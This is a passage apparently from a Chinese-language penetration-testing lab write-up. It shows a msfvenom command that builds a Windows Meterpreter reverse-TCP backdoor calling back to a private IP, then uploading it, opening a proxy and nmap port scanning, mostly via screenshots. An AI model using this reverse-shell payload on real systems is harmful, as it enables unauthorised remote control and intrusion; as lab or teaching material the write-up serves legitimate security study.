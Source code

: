 使用msf生成后门。  
msfvenom -p windows/x64/meterpreter/reverse\_tcp lhost= 192.168. 22.129 lport=6666  
\-f exe > shell.exe  
然后使用msf开启监听，上传shell.exe,成功上线。

[![](assets/1698990322-e43159e3252ea5028b73563603d5c047.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173402-f50d72e6-7962-1.png)

## 搭建代理

然后设置代理。

[![](assets/1698990322-f5c34d91508ac2986f61dc7adabc8cfb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173409-f9ca006a-7962-1.png)

使用nmap进行端口探测

[![](assets/1698990322-1437cf43d7d84cd16c65fb2ba07a5e03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173417-fe5b2622-7962-1.png)
